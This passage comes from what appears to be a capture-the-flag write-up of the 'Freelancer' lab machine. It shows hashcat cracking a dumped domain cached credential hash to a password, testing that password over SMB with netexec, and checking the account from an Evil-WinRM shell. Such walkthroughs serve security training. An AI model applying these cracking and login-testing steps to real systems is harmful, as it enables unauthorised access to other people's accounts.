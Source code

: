 ```

```

### Intended Path

#### Recover liza.kazanof Password

When [dumping passwords from the memory dump], there was a hash for liza.kazanof. I’ll crack the with `hashcat`:

```

$ cat liza.kazanof.hash 
$DCC2$10240#liza.kazanof#ecd6e532224ccad2abcf2369ccb8b679
$ hashcat liza.kazanof.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

2100 | Domain Cached Credentials 2 (DCC2), MS Cache 2 | Operating System
...[snip]...
$DCC2$10240#liza.kazanof#ecd6e532224ccad2abcf2369ccb8b679:RockYou!
...[snip]...

```

It cracks in less than a second on my host to “RockYou!”. It doesn’t seem to work for this account:

```

oxdf@hacky$ netexec smb freelancer.htb -u liza.kazanof -p 'RockYou!' -d freelancer.htb
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.5      445    DC               [-] freelancer.htb\liza.kazanof:RockYou! STATUS_LOGON_FAILURE

```

#### Enumerate liza.kazanof

With a shell as lorra199, I can look at the liza.kazanof user. Weirdly, they don’t seem to exist:

```
*Evil-WinRM* PS C:\> net user liza.kazanof
net.exe : The user name could not be found.
    + CategoryInfo          : NotSpecified: (The user name could not be found.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
More help is available by typing NET HELPMSG 2221.

```

They don’t show up in the Bloodhound data either.
